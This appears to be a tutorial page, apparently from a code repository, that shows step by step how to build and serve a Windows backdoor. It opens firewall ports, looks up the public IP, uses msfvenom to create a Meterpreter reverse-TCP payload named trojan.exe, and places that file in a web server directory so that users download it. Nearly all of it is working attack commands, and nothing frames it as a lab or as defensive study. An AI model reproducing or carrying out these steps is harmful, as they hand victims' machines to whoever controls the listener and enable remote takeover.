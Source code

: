 ```bash
sudo ufw allow 5555/tcp
```

### Check Current IP Address

To generate the trojan, we need to know the current host's IP address. Use the following command to check:
```bash
curl ifconfig.me
```

Alternatively, use `hostname` to check:

```bash
hostname -i
```

Copy the IP address and proceed to the next step.

## Generate the Backdoor Program

We will use Metasploit's built-in program `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=5555 -f exe > trojan.exe
```

- `LHOST`: Your Public IP Address
- `LPORT`: The port number you opened
- `trojan.exe`: The name of the generated file

## Create Download Link

To allow users to access your website and download the file, you can set up Apache or nginx, or use a simple Python server. To make our file management by yourself to ensure the file is not tampered with other web servers. So better to self-host the file :D

First, allow port 80:

```bash
sudo ufw allow 80
```

### Copy the Backdoor Program to the Web Server

use the `cp` command to copy the generated backdoor program to your web server. The web server path is:

```bash
/var/www/html
```

Copy the file to the directory:

```bash
cp -v trojan.exe /var/www/html/
```
